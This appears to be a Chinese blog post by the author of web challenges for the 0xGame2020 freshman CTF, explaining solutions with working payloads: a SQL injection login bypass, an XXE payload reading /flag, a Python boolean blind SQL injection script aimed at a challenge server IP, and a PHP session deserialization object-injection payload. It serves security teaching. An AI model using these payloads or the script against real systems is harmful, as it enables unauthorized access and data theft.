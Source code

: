 ```yaml
---
title: 0xGame2020出题笔记
date: 2020-10-30
image: https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120181429.png
description: 南京邮电大学新生赛
categories: 
- ctf_writeup
tags:
---
```

学校有史以来第一次这么简单的新生赛，我承担平台的运维和web出题。

第一次出这么多题，虽然题目难度都不大，不过折腾和搞平台环境还是花了不少精力，目的在于三点：

1. 希望CTF能在学校更普及
2. 希望能找到有兴趣和有毅力的学弟学妹
3. 题目很多都是来自入门文档的知识点，看过的一定很容易做出来，希望新同学能认真看资料

------

题目开源地址：https://github.com/Anthem-whisper/0xGame2020

所有题目环境：https://shimo.im/docs/8hkRHdRDdWyKycyK

因为是自费运营，还请师傅们不要恶意破坏环境

### 第一周

题目都是最简单的入门题目，也不涉及web漏洞，没什么好说的。主要考察同学们配置环境的动手能力。

### 第二周

出了一道很简单的SQL注入，

核心是要猜测登录时所拼接的sql语句：

```
$sql = "select username from user where username='". $username ."' and password='". $password ."';";
```

没有任何waf，在用户名处输入`admin' or 1=1#`搞定，由于#符号把后面的语句注视掉了，实际上sql语句实际上变成了：

```
select username from user where username='admin' or 1=1
```

1=1是永远成立的，所以必然能返回大于一行的数据，也就是 mysql_num_rows($res)>0，就可以获得flag

 

### 第三周

一道XXE，一道SQL布尔盲注

#### inject_me

XXE是去年NCTF2019的原题，我在web入门doc里面写过，并且题目地址和源码我都给了。

在给了hint的情况下这么少的解还是出乎我的意料

由HTTP响应里面返回的标签以及Content-Type是xml格式可以很轻易的百度到XXE这种攻击手段

XXE学习：https://xz.aliyun.com/t/3357

告诉了/flag，那么随手一个payload就出来了：

```
<?xml version="1.0"?>
<!DOCTYPE dy [
<!ENTITY dy SYSTEM "file:///flag">
]>
<user><username>&dy;</username><password>123</password></user>
```

 

#### close_eyes

布尔盲注很多同学用手打，本来目的是想叫你们去学python的，结果硬是手打出来了，下次出个128位的flag（bushi

本来想稍微加点waf的，后来不想出难了就没加，开SQLmap的莫得灵魂。

布尔盲注学习：https://xz.aliyun.com/t/7169#toc-2

这篇文章不仅仅讲了盲注也讲了其他的一些手法，值得钻研一番

思路就是语句为假的时候（比如我用户名输入1'||1=0#或者乱输一个用户名密码），页面回显“数据库里没你这号人,别想骗劳资.jpg”

为真的时候（比如我输入1'||1=1#）页面回显“数据库有你这号人，那又怎么着？”，根据回显情况的不同，我们就可以判断我们的condition究竟是真还是假。

```
1'||(condition)#
```

不断地改变condition就可以查到我们想要的数据；

举个例子：

```
1'||length(database())>1#
```

判断数据库名字的长度是不是大于1，页面返回“数据库有你这号人，那又怎么着？”，那么我们就可以确定数据库名字长度大于1。

类似的：

```
1'||ascii(substr(database(),1,1))=117#
```

可判断数据库第一个字母是ASCII码为117的字母，也就是‘u'。

也可以使用二分法进行盲注。

exp：

```
#python3
#wh1sper
import requests
host = 'http://59.110.157.4:30052/login.php'
def mid(bot, top):
    return (int)(0.5 * (top + bot))
def sqli():
    name = ''
    for j in range(1, 250):
        top = 126
        bot = 32
        while 1:
            babyselect = 'database()'#user
            #babyselect = '(select table_name from information_schema.tables where table_schema=database())'#user
            #babyselect = "(select group_concat(column_name) from information_schema.columns " \
            #            "where table_schema=database() and table_name='user')"#id,username,password
            #babyselect = "(select group_concat(password) from user)"#0xGame{blind_sqli_1s_not_hard}
            data = {
                "password": "1",
                "username": "1'||ascii(substr({},{},1))>{}#".format(babyselect, j, mid(bot, top))
            }
            r = requests.post(url=host, data=data)
            #print(r.text)
            print(data)
            if '数据库有你这号人' in r.text:#子查询为真
                if top - 1 == bot:
                    name += chr(top)
                    print(name)
                    break
                bot = mid(bot, top)
            else:
                if top - 1 == bot:
                    name += chr(bot)
                    print(name)
                    break
                top = mid(bot, top)
if __name__ == '__main__':
    sqli()
```

 

### 第四周

#### broken_motto

session反序列化，也是文档里面出现过的

\>>[学习链接](https://www.mi1k7ea.com/2019/04/21/PHP-session反序列化漏洞/)，建议自己本地动手搭一个环境

在profile.php里面里面有一行注释：

```
//ini_set('session.serialize_handler','php_serialize');
```

这行代码使用的Session序列化选择器是php_serialize，注释之后默认使用的是php

两种选择器的不同的处理方式导致了session反序列化的漏洞的产生，存session的时候，存入php_serialize经过serialize()函数序列处理的数组

读取的时候php以键名 ＋ 竖线 ＋ 经过 serialize() 函数序列化的数据处理如果你注册的时候加一个|，他会把`|`前面的忽略掉，只反序列化后面的，就可以造成对象注入。

exp：

```
<?php
 
class info{
    public $admin;
    public $username;
    public $motto;
 
}
 
$pop = new info();
$pop->admin = 1;
echo serialize($pop);
```

payload：

```
|O:4:"info":3:{s:5:"admin";i:1;s:8:"username";N;s:5:"motto";N;}
```

 

这次比赛总的来说呢，还是很成功的，相信同学们都找到了自己心里一直想追求的方向，当然，比赛中也不乏表现突出的选手，希望你们能坚持下去，去追求更深的技术，更好的未来